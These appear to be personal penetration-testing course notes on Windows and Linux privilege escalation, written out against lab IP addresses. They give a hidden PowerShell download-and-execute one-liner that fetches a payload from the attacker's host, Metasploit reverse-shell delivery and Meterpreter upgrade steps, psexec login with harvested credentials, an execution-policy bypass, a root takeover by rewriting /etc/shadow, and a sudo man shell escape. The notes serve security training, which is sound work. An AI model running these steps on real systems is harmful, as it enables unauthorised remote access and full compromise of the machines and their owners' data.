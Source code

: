 
## Windows Privilege Escalation 


- PrivscCheck is a script that enumerate common Windows configuration issues that can be leveraged for local privilige escalation. It also gathers info that is usefull for exploitation or post exploitation: 
	- https://github.com/itm4n/PrivescCheck 

--
target: 10.2.20.115
kali: 10.10.18.8

powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\eYgB4HEV.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.18.8:8080/9zF5sgNNB', $z); invoke-item $z

web_delivery module (`show info`)
- set target to powershell:` set target PSH\ (Binary`) 
- `set payload windows/shell/reverse_tcp `
- `set PSH-EncodedCommand false ` (we do not want it to encrypt with base 64)
- copy the powershell code provided 
  
- paste the code in the CommandPromptSession on victim system 
this will give you accesss to target system through command shell session. 
  
- migrate this session to meterpreter session: 
	- search shell_to_meterpreter module 
	- set lhost kali 
	- set lport (make sure its not the same as the existing shell session)
	- set session to shell session 
	- show advanced: 
		- set WIN_TRANSFER VBS

**powershell -ep bypass .\script.ps1** 
Hiermee wordt het uitvoeringsbeleid tijdelijk omzeild voor de huidige sessie, zodat het script kan worden uitgevoerd zonder problemen met de uitvoeringsbeleidsinstellingen.**



Privilege escalation: 
after migrating to a more stable process such as explorer you run getprivs to find out what the priviliges are (getprivs)

In meterpreter: 
- `cd C:\\ `
- go to the directory where the Privescheck powershell is stored and open a command shell: `shell` 
	- check github page on how to use the script 
- paste the command in the shell prompt 
- check summary results 


##### How to use the credentials found in Privescheck results?  

![[Pasted image 20230924152458.png]]
psexec authenticates on target system via SMB, we are not exploiting the system but only authenticating with legit credentials 

login on target system with psexec.py:
- `psexec.py Administrator@target_ip (`
- command shell session
	- `whoami` 
	- `net user `
	- `whoami /priv `


Method 2 is with meterpreter session 
- search psexec 
- use exploit/windows/smb/psexec 
- set lport that does not conflict with current sessions 
- set smb-password and smb-username with found credentials 
- 








































## Linux Privilege escalation 

Linux priviliges: LinEnum 
Simple bash script that automates common Linux local enumeration check in addition identifying privilege escalation vulnerabilities. 
-> https://github.com/rebootuser/LinEnum 



##### Weak permissions 
CMD: 
	``whoami` 
	`cat /etc/passwd`
	`cat /etc/group `
	`groups student ``

find file that can be usefull in elevating privileges 
 
**`find / -not -type l -perm -o+w`**  

- . `find`: This is the command itself, used to search for files and directories.
- . `/`: This is the starting directory for the search. In this case, it's the root directory, so the command will search the entire file system.
- . `-not`: It means "not."
- . `-type l`: This part of the command specifies the type of file to search for. `-type l` looks for symbolic links (symlinks). Symlinks are files that point to another file or directory.
- . `-perm -o+w`: This part of the command specifies the permissions criteria. `-perm` is used to search for files based on their permissions, and `-o+w` looks for files that are writable by someone other than the owner.


/etc/shadow stores passwords and should only be viewed by the root user. 
cat out the content of the file 
we have access to the password files but we can only see the hashes. 
so this means that we have to replace the password with a hashed password (this way we can have access to the root user)

1. Confirm that you have access to the shadow file: `ls -al /etc/shadow `
2. generate password you can replace: `openssl passwd -1 -salt abc youhavebeenhacked`
3. copy hashed password and replace in shadow file: `vim` `/etc/shadow `
   remove the * and paste the new password 
4. switch to the root account: `su` 
5. enter password of root user account with the value you set 


##### Sudo Privileges 

`cat /etc/passwd `
`sudo -l `(list of commands you can run as the user)

 
 /usr/bin/man can be exploited if misconfigured with pseudo priviliges: 
 unprivileged can run this binary with sudo priviliges (root priviliges) without root password/  -- bypassing permissions & privileges
 
 man utility can allow users to spawn a bash session from within the utility, how: 

  try to run with sudo privliges:
  -  `sudo man ls `  (it should not ask for password)
  - `sudo man ls` 
  - we can spawn a bash session with: 
  `  !/bin/bash `
because we are running the man binary with pseudo priviliges, we are able to execute whatever, from the man binary. 




